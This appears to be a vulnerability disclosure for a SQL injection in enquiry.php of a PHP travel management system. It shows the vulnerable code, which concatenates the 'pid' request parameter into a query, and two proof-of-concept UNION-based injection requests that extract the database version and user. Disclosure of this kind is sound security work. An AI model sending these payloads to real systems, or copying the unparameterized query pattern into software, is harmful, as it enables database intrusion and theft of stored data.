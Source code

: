 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/travel-management-system-using-php-source-code/



## Vulnerability file



/enquiry.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
if(isset($_POST["sbmt"]))
{
	$cn=makeconnection();
	$s="insert into enquiry(Packageid,Name,Gender,Mobileno,Email,NoofDays,Child,Adults,Message,Statusfield) values('" . $_REQUEST["pid"] ."','" . $_POST["t1"] ."','" . $_POST["r1"] ."','" . $_POST["t2"] ."','" . $_POST["t3"] ."','" . $_POST["t4"] ."','" . $_POST["t5"] ."','" . $_POST["t6"] ."','" . $_POST["t7"] ."','Pending')";	
	
	
		mysqli_query($cn,$s);
	
	echo "<script>alert('Record Save');</script>";
}
?>
```

## POC1

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

[(cve/Travel Management System/image-20250104133254893.png)](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133254893.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

[![image-20250104133602150](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133602150.png)

![image-20250104133733397](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133733397.png)
